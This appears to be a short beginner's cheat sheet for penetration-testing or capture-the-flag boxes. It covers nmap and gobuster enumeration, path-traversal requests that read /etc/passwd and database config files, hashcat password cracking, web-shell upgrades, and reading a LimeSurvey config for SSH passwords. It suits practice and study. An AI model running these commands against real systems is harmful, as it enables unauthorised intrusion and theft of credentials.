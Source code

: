 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm

3
   




---------------------ENUMERATION---------------
1. rustscan --ulimit 10000 -a <IP> -- -sC -Pn
   or
   nmap -sCV -p- <IP>
2. dirsearch -u <IP>
   and
   gobuster vhost -u http://<domain> -w /usr/share/wordlists/dirb/small.txt -k --append-domain
3. (FOR DIR ENUMERATION ON YOUR KNOWN DOMAINS)--> gobuster dir http://<example.domain.com>/ -w /usr/share/wordlists/dirb/cmmon.txt


--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1



-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt




-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)










